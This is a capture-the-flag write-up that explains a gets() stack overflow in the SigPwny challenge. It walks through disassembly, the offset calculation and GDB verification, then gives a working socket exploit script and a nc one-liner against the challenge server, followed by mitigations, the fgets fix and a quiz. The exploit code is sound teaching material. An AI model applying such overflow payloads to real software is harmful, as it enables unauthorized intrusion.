





# SigPwny — Deprecated Stack Overflow

A stack-overflow challenge with no return-address hijacking, no ROP chain, and no shellcode at all — the
win condition is just one local variable, `number`, becoming non-zero. The entire exploit is a single
overflow that overwrites exactly one byte of that variable and nothing else, making this one of the
cleanest possible introductions to **data-oriented exploitation**: corrupting program *data* to flip a
decision, rather than corrupting *control flow* to redirect execution.

| | |
|---|---|
| **CTF** | SigPwny |
| **Service** | `chal.sigpwny.com:1374` |
| **Category** | PWN / Binary Exploitation |
| **Vulnerability** | Stack buffer overflow (`gets()`) |
| **Technique** | Data-oriented exploitation — local variable overwrite |
| **Arch** | x86-64 |
| **Difficulty** | Easy |
| **Author:** Gantosay |

---

## 1. Challenge Description

The service hands you source code up front and gives away the goal directly:

> "Look in `challenge.c` for hints!"

The win condition, stated plainly by the program itself: change a local variable called `number` from
`0` to anything else, and the flag prints. No hidden backdoor function to find, no leaked address to
compute — the entire challenge is **reaching that variable precisely enough to flip it**, without
needing to touch the return address or redirect execution anywhere at all.

---

## 2. Source Code

```c
#include <stdint.h>
#include <stdio.h>
#include <stdlib.h>

void setup() {
    setvbuf(stdout, NULL, _IONBF, 0);
    setvbuf(stderr, NULL, _IONBF, 0);
    setvbuf(stdin, NULL, _IONBF, 0);
}

void print_flag() {
    char c;
    FILE *f = fopen("flag.txt", "r");

    while ((c = fgetc(f)) != EOF)
        putc(c, stdout);
}

int main() {
    char name[32];

    // This is an 8 byte number which exists after the 32 bytes of name.
    uint64_t number = 0;

    setup();

    puts("If you can change the value of number from anything besides 0, we will give you the flag!");

    gets(name);

    if (number != 0) {
        print_flag();
    } else {
        printf("Not quite. The number is 0x%lx right now.\nTry again!\n", number);
    }

    return 0;
}
```

### 2.1 The three pieces that matter

| Element | Line | Why it matters |
|---|---|---|
| **The buffer** | `char name[32];` | 32 bytes of stack space, no bounds enforcement anywhere near it |
| **The target** | `uint64_t number = 0;` | An unsigned 64-bit value; the entire challenge is making this non-zero |
| **The bug** | `gets(name);` | Reads an unbounded line from stdin into `name` with no length limit whatsoever |

`gets()` is the actual root cause, and it's worth being precise about *why* it's dangerous rather than
treating "it's deprecated" as a sufficient explanation: `gets()`'s function signature is `char
*gets(char *s)` — it takes **only a destination pointer**, with no corresponding size parameter at all.
There is no way to tell `gets()` how big the destination buffer is, so it has no mechanism to stop at 32
bytes even if it wanted to; it reads every byte up to the next newline, no matter how long the line is,
and writes every single one of them into `name`. This is exactly why `gets()` was formally removed from
the C11 standard — not merely deprecated, but deleted — and why every modern compiler emits a warning
(and often a linker warning referencing exactly this danger) the moment it sees it used.

### 2.2 The win condition, read literally

```c
if (number != 0) {
    print_flag();
}
```

This is the whole target. Reaching it requires no control over `RIP`, no knowledge of any address inside
`main` beyond where `number` physically sits on the stack, and no interaction with the return address at
all — the check and the call to `print_flag()` both happen **before** `main` ever reaches its epilogue
(`leave; ret`), so whatever we do to the stack past this point is irrelevant to the win condition; by the
time the function would normally return, the flag has already printed or not.



---

## 3. Why This Is a Stack Overflow, Precisely

A stack-based buffer overflow happens whenever a program writes more bytes into a stack-allocated buffer
than that buffer was sized to hold, and nothing stops the write at the buffer's boundary. Every one of
those conditions is met here:

- **The buffer is fixed at 32 bytes** (`char name[32]`), allocated on the stack.
- **The input function enforces no limit.** `gets()` has no size parameter to enforce one with.
- **A variable with security-relevant meaning (`number`) sits at a higher stack address than the
  buffer**, meaning a long-enough write into `name` will eventually reach it before reaching anything
  else that would crash the program outright.

The one assumption worth challenging before writing any exploit code: **the source code's variable
*declaration order* is not a guarantee of *memory layout order*.** `name` is declared before `number` in
the source, and on this architecture's typical stack-growth direction (stack grows downward, toward
lower addresses, as the call depth increases) that usually does translate to `name` sitting at a lower
address than `number` — but the *exact* distance between them is entirely the compiler's decision,
influenced by alignment rules, register-spilling choices, and optimization level. Nothing in the C
standard obligates the compiler to place these two variables adjacently, or in declaration order, or with
any particular gap. The only way to know the real distance is to **disassemble the compiled binary and
read the actual stack offsets it generates** — which is exactly the next step.

---

## 4. Disassembling `main`

```bash
$ gdb -q ./challenge
(gdb) break main
(gdb) run
(gdb) disassemble main
```

### 4.1 Full relevant disassembly

```asm
0x00005555555552c1 <+0>:   endbr64
0x00005555555552c5 <+4>:   push   %rbp
0x00005555555552c6 <+5>:   mov    %rsp,%rbp
0x00005555555552c9 <+8>:   sub    $0x30,%rsp

0x00005555555552cd <+12>:  movq   $0x0,-0x8(%rbp)

0x00005555555552d5 <+20>:  mov    $0x0,%eax
0x00005555555552da <+25>:  call   setup

0x00005555555552df <+30>:  lea    0xd32(%rip),%rdi
0x00005555555552e6 <+37>:  call   puts@plt

0x00005555555552eb <+42>:  lea    -0x30(%rbp),%rax
0x00005555555552ef <+46>:  mov    %rax,%rdi
0x00005555555552f2 <+49>:  call   gets@plt

0x00005555555552f7 <+54>:  cmpq   $0x0,-0x8(%rbp)
0x00005555555552fc <+59>:  je     0x555555555311 <main+80>

0x00005555555552fe <+61>:  mov    $0x0,%eax
0x0000555555555303 <+66>:  call   print_flag
```

(The addresses shown carry a PIE load-base offset, visible from the full `0x0000555...` prefix — this is
expected and does **not** affect the exploit: every address of interest here is expressed as an offset
*from `%rbp`*, which stays correct regardless of where the binary happened to load that particular run.)

### 4.2 Stack frame setup

```asm
push   %rbp
mov    %rsp,%rbp
sub    $0x30,%rsp
```

Standard function-prologue boilerplate: save the caller's frame pointer, establish this function's own
frame pointer, then reserve stack space. `0x30` in hex is **48 in decimal** — the compiler reserved 48
bytes of local stack space for this function's frame.

**This 48 is easy to misread, so it's worth stating precisely what it is and isn't:** it is *not* the
size of `name`. It's the *total* local-frame size the compiler decided this function needs, covering
`name` (32 bytes), `number` (8 bytes), and whatever alignment padding the compiler inserted around them
— `32 + 8 = 40`, with 8 more bytes of padding making up the full 48 that `sub $0x30, %rsp` reserves. The
one instruction tells you the frame's total footprint; it tells you nothing on its own about how that
footprint is subdivided between individual variables.

### 4.3 Locating `number`

```asm
movq   $0x0,-0x8(%rbp)
```

This single instruction is `number`'s initializer (`uint64_t number = 0;` compiled directly into a
64-bit immediate store). It tells us, unambiguously:

```
number = [rbp - 0x8]
```

Since `number` is declared `uint64_t`, it occupies exactly 8 bytes — from `rbp-0x8` through `rbp-0x1`.

### 4.4 Locating `name`

```asm
lea    -0x30(%rbp),%rax
mov    %rax,%rdi
call   gets@plt
```

On x86-64 Linux's System V calling convention, the **first** function argument is passed in `%rdi`.
`gets()` takes exactly one argument — the destination buffer pointer — so whatever address ends up in
`%rdi` right before this `call` *is* the address `gets()` will start writing to. Tracing it backward:
`%rax` is loaded with `rbp - 0x30` via `lea`, then copied into `%rdi` unchanged. So:

```
name = [rbp - 0x30]
```

### 4.5 The security check

```asm
cmpq   $0x0,-0x8(%rbp)
je     <failure path>
```

Directly confirms what the `movq` initializer told us: the variable being compared against zero —
`number` — lives at `[rbp-0x8]`. If it's zero, the jump to the "try again" branch is taken; if it's
anything else, execution falls through into the `call print_flag` that follows.



---

## 5. Calculating the Exact Offset

Two known offsets from `%rbp`:

```
name   = [rbp - 0x30]
number = [rbp - 0x08]
```

The distance between the start of `name` and the start of `number` is simply the difference between
these two offsets:

```
0x30 - 0x08 = 0x28  =  40 (decimal)
```

**Offset from the start of `name` to the start of `number`: 40 bytes.**

### 5.1 Why 40, and not 32?

Because 32 bytes only gets you from the start of `name` to the *end* of `name` — it says nothing about
how far past that end `number` actually begins. The region between them is laid out, precisely, as:

| Region | Address range | Size |
|---|---|---:|
| `name` | `[rbp-0x30]` through `[rbp-0x11]` | 32 bytes |
| Compiler padding (gap) | `[rbp-0x10]` through `[rbp-0x9]` | 8 bytes |
| `number` | `[rbp-0x8]` through `[rbp-0x1]` | 8 bytes |

```
32 (name) + 8 (padding gap) = 40 bytes before number's first byte begins
```

**That 8-byte gap is the entire reason a naive `b"A" * 32` payload would fail to reach `number` at
all** — it would land squarely inside the padding, one full 8-byte region short of the target, leaving
`number` completely untouched and still reading `0`. This is precisely the kind of detail that only
disassembly (§4), not source-level reasoning about declared sizes, can reveal.

```mermaid
block-beta
columns 1
  block:layout
    retaddr["[rbp+0x08]  Return address"]
    savedrbp["[rbp+0x00]  Saved RBP"]
    numblk["[rbp-0x08]  number — 8 bytes  <- TARGET"]
    gapblk["[rbp-0x10]  padding — 8 bytes (gets 'A'-filled, harmless)"]
    nameblk["[rbp-0x30]  name[32] — 32 bytes  <- gets() writes here first"]
  end
```



---

## 6. Constructing the Payload

With the 40-byte offset established, the payload design is almost mechanical:

```python
payload = b"A" * 40 + b"B\n"
```

| Component | Purpose |
|---|---|
| `b"A" * 40` | Fills `name`'s 32 bytes plus the 8-byte padding gap — none of this content matters, it's pure filler to reach the target |
| `b"B"` | Lands exactly on `number`'s first (least-significant) byte, overwriting it |
| `b"\n"` | Terminates the line — `gets()` reads up to and including the newline, then stops and NUL-terminates the *string* it read (not relevant to `number`'s own bytes, which are a raw integer, not a C string) |

### 6.1 Why overwriting just one byte is enough

`number` starts at `0`, which in its full 8-byte little-endian representation is:

```
00 00 00 00 00 00 00 00
```

The character `'B'` has ASCII value `0x42`. Because x86-64 is little-endian, the *first* byte written
into a multi-byte integer's memory region corresponds to that integer's **least-significant** byte — so
writing `0x42` into the first byte of `number`'s 8-byte region produces:

```
42 00 00 00 00 00 00 00
```

Read back as a single 64-bit little-endian integer, that byte sequence is:

```
number = 0x0000000000000042  =  0x42  =  66 (decimal)
```

Since `0x42 != 0`, the check `if (number != 0)` evaluates true on the very next instruction after the
overflow — **we never needed to control all 8 bytes of `number`; changing any single one of them away
from `0x00` is already sufficient to make the full 64-bit value non-zero.** This is a useful general
principle: when the win condition is "non-zero" rather than "equal to some specific value," you need far
less precision in your overwrite than you would if you were trying to set an exact target value.



---

## 7. Verifying Locally With GDB Before Touching the Remote Service

Testing against a local copy first — and proving the offset really is correct with direct memory
inspection, not just trusting the arithmetic — avoids burning connection attempts against the remote
service on an untested guess.

### 7.1 Building the payload as a file

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' > payload.bin
```

Total size: `40 + 1 + 1 = 42` bytes.

### 7.2 Breaking right after `gets()` returns

```bash
gdb -q ./challenge
```
```gdb
(gdb) break *main+54
(gdb) run < payload.bin
```

`main+54` is the address of the `cmpq $0x0,-0x8(%rbp)` instruction — i.e., breaking exactly here means
`gets()` has already finished writing, but the security check hasn't executed yet. This is the ideal spot
to inspect the overflow's effect before the program makes its decision.

### 7.3 Reading the variable's interpreted value

```gdb
(gdb) p/x number
$1 = 0x42
```

Confirms, at the C-variable level, that the overflow worked exactly as predicted.

### 7.4 Reading the raw bytes directly

```gdb
(gdb) x/8bx &number
0x7fffffffe2e8: 0x42  0x00  0x00  0x00
0x7fffffffe2e8+4:     0x00  0x00  0x00  0x00
```

This is the strongest possible confirmation — not GDB's *interpretation* of the variable, but the literal
bytes sitting in memory, matching the little-endian layout derived in §6.1 exactly.

### 7.5 Independently re-deriving the offset from live addresses

```gdb
(gdb) p/x &name
$2 = 0x7fffffffe2c0
(gdb) p/x &number
$3 = 0x7fffffffe2e8
```

```
0x7fffffffe2e8 - 0x7fffffffe2c0 = 0x28 = 40
```

The live, runtime address difference matches the static disassembly-derived offset from §5 exactly —
two independent methods (reading `rbp`-relative offsets from the disassembly, versus subtracting live
addresses at runtime) landing on the identical number is strong confirmation this isn't a coincidence or
an off-by-one that happened to work once.

### 7.6 Viewing the entire affected region at once

```gdb
(gdb) x/48bx &name
0x7fffffffe2c0: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffe2c8: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffe2d0: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffe2d8: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffe2e0: 0x41 0x41 0x41 0x41 0x41 0x41 0x41 0x41
0x7fffffffe2e8: 0x42 0x00 0x00 0x00 0x00 0x00 0x00 0x00
```

Forty bytes of `0x41` (`'A'`) exactly fill `name` and the padding gap, and the 41st byte — the first byte
of `number`'s own 8-byte region — is `0x42` (`'B'`), precisely as designed. **This single dump is the
clearest possible evidence that the exploit's mental model matches physical reality**: not an inference
from source code, not an assumption from the disassembly alone, but the literal post-overflow memory
contents.

---

## 8. Registers and Frame Mechanics, Briefly

A short reference for the registers this analysis leaned on:

| Register | Role |
|---|---|
| `RBP` | Frame/base pointer — the fixed reference point every local variable in this function is addressed relative to |
| `RSP` | Stack pointer — tracks the current "top" of the stack as it grows and shrinks |
| `RIP` | Instruction pointer — holds the address of the next instruction to execute |

```gdb
(gdb) info registers
(gdb) p/x $rbp
(gdb) p/x $rsp
(gdb) x/8gx $rbp      ; 'g' = 8-byte ("giant") word display, convenient for 64-bit stack inspection
```

At `main`'s very end:

```asm
leave
ret
```

`leave` is semantically equivalent to `mov %rbp, %rsp` followed by `pop %rbp` — it tears down the current
frame, restoring the caller's stack pointer and frame pointer. `ret` then pops whatever sits at the new
top of stack into `RIP` and jumps there — this is the instruction a *traditional* return-address overflow
would target. **This challenge never reaches that point with a corrupted return address at all**: the
`if (number != 0)` check and the resulting call to `print_flag()` both happen well before `leave`/`ret`
execute, so the return address's value is simply never consulted in a way that matters to this exploit.

---

## 9. The Exploit

### 9.1 Script

Written as a minimal, dependency-light script using the standard library's `socket` module directly —
no `pwntools` required for a payload this simple, which also makes the script trivially portable to
environments where installing extra packages isn't convenient.

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#
# SigPwny - Deprecated Stack Overflow
#
# gets(name) has no bounds checking. name[32] sits 40 bytes before the
# target variable `number` (32 bytes of buffer + an 8-byte compiler
# padding gap -- see write-up section 5). Overwriting just the first
# byte of `number` with any non-zero value flips `if (number != 0)` to
# true, which is the program's entire win condition.

import socket

HOST = "chal.sigpwny.com"
PORT = 1374

OFFSET = 40  # bytes from the start of name[] to the start of number

# Overwrite only the least-significant byte of `number` -- 0x42 ('B')
# is more than enough to make the full 8-byte value non-zero.
payload = b"A" * OFFSET + b"B\n"


def exploit():
    try:
        with socket.create_connection((HOST, PORT), timeout=10) as sock:
            print(f"[+] Connected to {HOST}:{PORT}")

            sock.sendall(payload)
            print(f"[+] Payload sent ({len(payload)} bytes)")

            response = b""
            while True:
                chunk = sock.recv(4096)
                if not chunk:
                    break
                response += chunk

            print("\n[+] Server response:")
            print(response.decode(errors="replace"))

    except socket.timeout:
        print("[-] Connection timed out")
    except OSError as error:
        print(f"[-] Connection error: {error}")


if __name__ == "__main__":
    exploit()
```

```bash
python3 exploit.py
```

### 9.2 One-liner, for the record

The entire exploit, without the socket-handling scaffolding:

```bash
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' | nc chal.sigpwny.com 1374
```

Both forms send byte-for-byte the same 42-byte payload; the script above just adds connection-error
handling and prints the server's response back to you.

---

## 10. Complete Exploitation Flow



---

## 11. Why This Is Data-Oriented Exploitation

Memory-corruption exploitation broadly splits into two families, and this challenge is a clean example of
the less commonly taught one.



**Control-flow hijacking** corrupts data that directly determines *where the CPU executes next* — return
addresses, function pointers, vtable entries, saved instruction pointers. The entire point is redirecting
execution somewhere the attacker chose.

**Data-oriented exploitation** corrupts data that influences *what decision the program makes*, without
necessarily changing *where* it executes at all. Classic real-world examples include flipping an
`is_admin` or `authenticated` flag, inflating an account balance field, or — exactly as here — flipping a
boolean-like check from false to true by corrupting the underlying integer.

In this challenge, we overwrite `uint64_t number`, and the program's behavior changes because its
*existing*, already-present conditional branch (`if (number != 0)`) now evaluates differently — not
because we redirected `RIP` anywhere, built a ROP chain, or even touched the saved return address at any
point. This is exactly why the exploit ends up simpler, in both design and payload size, than a
traditional return-address-overwrite challenge would be: there's no address-leaking, no gadget-hunting,
and no stack-alignment concerns, because we never ask the CPU to jump anywhere it wasn't already going to
jump on its own.

---

## 12. Mitigations — and an Important Caveat About Which Ones Actually Apply

| Protection | Purpose | Does it stop *this* exploit? |
|---|---|---|
| Stack Canary | Detects certain stack corruption, checked right before a function returns | **No** — see below |
| NX | Prevents executing code from non-executable memory | Not relevant — no shellcode is involved |
| PIE | Randomizes the binary's load address | Not relevant — the exploit never hardcodes an absolute address, only an `rbp`-relative offset |
| ASLR | Randomizes memory region placement generally | Same as PIE — irrelevant to an offset-based, not address-based, overwrite |
| RELRO | Protects relocation/GOT data | Not relevant — the GOT is never touched |
| Bounded input (`fgets`, etc.) | Enforces a maximum read length at the source | **Yes** — this is the actual, complete fix |

**The stack-canary point deserves specific emphasis, because it's a common misconception:** a stack
canary is checked at the function **epilogue**, immediately before `leave; ret` executes, specifically to
catch corruption of the return address or saved registers on the way out. In this challenge, the
`if (number != 0)` check and the resulting `print_flag()` call both happen **before** `main` ever reaches
its epilogue — meaning even a binary compiled *with* a stack canary enabled would behave identically here,
because the program reaches its win condition and potentially prints the flag entirely before the canary
check would ever get a chance to run and detect anything. A canary would still catch an overflow large
enough to also corrupt the saved return address itself, but it provides **zero protection** against a
more surgical overflow that stops short of the return address and only touches a local variable sitting
between the buffer and that return address — which is exactly the shape of this exploit.

```c
// The actual, complete fix: give the input function a size limit.
fgets(name, sizeof(name), stdin);
```

**The general lesson:** compiler and OS-level mitigations (canaries, NX, PIE, ASLR, RELRO) each defend
against specific *consequences* of memory corruption, but none of them eliminate the underlying
out-of-bounds write itself. The only fix that actually closes this vulnerability is bounds-checked input
handling at the point where untrusted data enters the buffer.

---

## 13. Key Takeaways

- **A stack overflow does not have to target the return address to be a complete, working exploit.** Any
  security-relevant data sitting between the overflowed buffer and the return address is a valid,
  sometimes much simpler, target.
- **Declaration order in source code is not memory layout.** `name` being declared before `number` in the
  C source tells you nothing reliable about their exact relative stack addresses or the gap between
  them — only disassembly of the actual compiled binary does.
- **`sub $N, %rsp` tells you the *total* frame size, not any individual variable's size.** Decomposing
  that total into "which bytes belong to which variable" requires reading each variable's own
  `rbp`-relative address from how it's actually used in the disassembly (its initializer, its address
  passed to a function, etc.), not just the one subtraction instruction.
- **Little-endian byte order means the overflow's *first* written byte lands on the target integer's
  *least-significant* byte** — which is why a single ASCII character is enough to flip an 8-byte integer
  from all-zero to non-zero; you're not fighting byte order, you're exploiting it.
- **When the win condition is "non-zero" rather than "equals some exact value," minimal-precision
  overwrites are sufficient.** There was no need here to compute or control all 8 bytes of `number` — one
  controlled byte, landing anywhere within those 8 bytes, is already enough to satisfy `!= 0`.
- **Verify a calculated offset against live memory before trusting it**, ideally via two independent
  methods (static disassembly offsets, and a live runtime address subtraction) — as done in §7.5, getting
  the same number both ways is meaningfully stronger evidence than either method alone.
- **Not every mitigation defends against every exploit shape.** A stack canary specifically guards the
  return-address/epilogue path; it has nothing to say about a program reaching a dangerous branch earlier
  in the same function, before the epilogue (and the canary check inside it) is ever reached.

---

## 14. Quiz — Test Yourself

**Q1.** The write-up calculates the offset from `name` to `number` as 40 bytes, even though `name` is
only declared as 32 bytes in the source. Where do the extra 8 bytes come from, and why can't you
determine their existence from the source code alone?

<details>
<summary>Answer</summary>

The extra 8 bytes are **compiler-inserted stack padding** sitting between the end of `name`'s 32 bytes
and the start of `number` — visible directly in the disassembly as the gap between `name = [rbp-0x30]`
and `number = [rbp-0x8]` (a `0x28`/40-byte distance, not the `0x20`/32-byte distance the buffer's
declared size alone would suggest). You can't determine this from the source code because the C standard
makes no promise about exact stack layout, adjacency, or ordering of local variables — the compiler is
free to insert alignment padding, reorder variables, or even eliminate/relocate them (e.g., into
registers) based on its own internal decisions, often influenced by alignment requirements (a `uint64_t`
commonly wants 8-byte alignment) and optimization settings. The only way to know the real, compiled
layout is to disassemble the actual binary and read the concrete `rbp`-relative offsets each variable is
addressed with.
</details>

---

**Q2.** The instruction `sub $0x30, %rsp` reserves 48 bytes of stack space, but `name` (32 bytes) +
`number` (8 bytes) only accounts for 40 of those bytes. What happened to the other 8, and why doesn't
this write-up's exploit need to care about them?

<details>
<summary>Answer</summary>

The remaining 8 bytes are simply **additional stack space the compiler reserved for this frame that
isn't occupied by either variable we care about** — it could be further alignment padding (keeping the
whole frame size a multiple of 16, which x86-64's ABI generally prefers for the stack pointer at call
boundaries), reserved-but-unused scratch space, or space the compiler allocated defensively and never
ended up needing. The exploit doesn't need to account for it because the only two addresses that matter
for this attack — where `gets()` starts writing (`name`, `[rbp-0x30]`) and where the target variable lives
(`number`, `[rbp-0x8]`) — are both known precisely from the disassembly, and the offset between *those
two specific points* is all the payload's length needs to be based on. Whatever unused space exists
elsewhere in the 48-byte frame is simply never written to or read from by this particular exploit, so its
exact purpose is irrelevant to constructing a working payload.
</details>

---

**Q3.** Explain, at the byte level, why sending `b"A"*40 + b"B"` makes `number` equal to `0x42` rather
than, say, `0x42` shifted into a different byte position, or some other value entirely.

<details>
<summary>Answer</summary>

`gets()` writes bytes sequentially starting at `name`'s address (`[rbp-0x30]`) and continuing upward
through memory with each successive input byte. The first 40 bytes of input (`b"A"*40`) land on `name`'s
32 bytes followed by the 8-byte padding gap, ending exactly at the last padding byte. The 41st byte sent
(`b"B"`, ASCII `0x42`) is therefore the very first byte written into `number`'s own 8-byte memory region,
which begins at `[rbp-0x8]`.

Because x86-64 is a **little-endian** architecture, a multi-byte integer's *first* (lowest-address) byte
in memory is that integer's **least-significant** byte when reassembled into a single value — not its
most significant. So writing `0x42` into `number`'s first byte, while its remaining 7 bytes stay at their
initialized value of `0x00` (since the payload stops right there, with just one letter and a newline),
produces the byte sequence `42 00 00 00 00 00 00 00`. Reading that sequence back as one little-endian
64-bit integer gives `0x0000000000000042`, i.e., `0x42` — not `0x4200000000000000` or any other shifted
value, because the overwritten byte occupied the integer's low-order position, not a high-order one.
</details>

---

**Q4.** This write-up argues that a stack canary, if this binary had been compiled with one, would
provide **no protection at all** against this specific exploit. Explain precisely why, referencing where
in a function's execution a canary is actually checked.

<details>
<summary>Answer</summary>

A stack canary is a known value placed on the stack (typically just above local variables, closer to the
saved return address) during a function's **prologue**, and it is **checked once, specifically in the
function's epilogue**, immediately before the `leave`/`ret` sequence that would actually return control
to the caller. Its entire purpose is to detect whether an overflow has corrupted the data between the
canary's own position and the return address, by comparing the canary's current value against its
original value right before trusting that return address enough to jump to it.

In this challenge, the security-relevant branch — `if (number != 0) { print_flag(); }` — executes **long
before** `main` ever reaches its epilogue; `number` sits at `[rbp-0x8]`, a lower address than where a
canary would typically be placed (closer to the saved RBP/return address, i.e., even less deep into the
frame than `number`), and the overflow in this exploit never even reaches as far as the canary's position
in the first place, let alone the return address beyond it. So even in a canary-protected build, the
program would evaluate the now-corrupted `number`, call `print_flag()`, and only *then* — if execution
ever actually reached the epilogue at all, which for this particular win condition it doesn't need to —
would the canary check even occur. The canary mechanism simply never gets a chance to intervene, because
the attack's effect is fully realized at a point in the function's execution that comes before the
canary's one and only check.
</details>

---

**Q5. (Interview-style)** Generalize beyond this specific challenge: when triaging a stack-based buffer
overflow for exploitability, what specific question should you ask about the function's local variables
— beyond "is there an overflow at all" — that determines whether a full return-address/control-flow
exploit is even necessary?

<details>
<summary>Answer</summary>

The key question: **"Does any security-relevant decision get made using a variable that sits between the
overflowed buffer and the return address, and does that decision get evaluated before the function
returns?"** If the answer is yes — if there's a privilege flag, a length check that's re-read after being
set, an authentication result, a loop bound, or (as in this challenge) a simple non-zero check sitting
somewhere in that region — then a full control-flow hijack (leaking addresses, building a ROP chain,
redirecting `RIP`) may be substantially more work than necessary. A much shorter, more surgical overflow
that stops well short of the return address, aimed purely at flipping that one piece of data, can achieve
the actual goal (bypass a check, escalate a privilege, win a game-like condition) with a fraction of the
payload complexity and without needing to defeat NX, find a leak, or worry about stack alignment at all.
Conversely, if no such intermediate variable exists — if the overflow's only reachable, meaningful target
really is the return address itself — then control-flow hijacking becomes the necessary approach. The
general triage principle: **map every variable's stack position relative to the buffer and the return
address first, identify which of those variables (if any) the program trusts for a security decision, and
only reach for a full control-flow exploit if nothing closer to the buffer already gets you what you
need.**
</details>

---

## 15. Final Result

```python
payload = b"A" * 40 + b"B\n"
```

This single 42-byte payload overflows `name`, crosses an 8-byte compiler-inserted padding gap, and
overwrites exactly the least-significant byte of `number` with `0x42` — enough to flip the program's
existing `if (number != 0)` check from false to true and trigger `print_flag()`, without ever touching the
saved return address or redirecting execution anywhere.

**The core lesson this challenge teaches:** understanding the *actual*, disassembly-verified memory
layout is more valuable than either guessing offsets or reaching immediately for more complex
exploitation machinery than the vulnerability actually calls for.

---

## Appendix A — Commands Reference

```bash
# Build and test the payload locally
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*40+b"B\n")' > payload.bin

# Disassemble and inspect with GDB
gdb -q ./challenge
#   break main
#   run
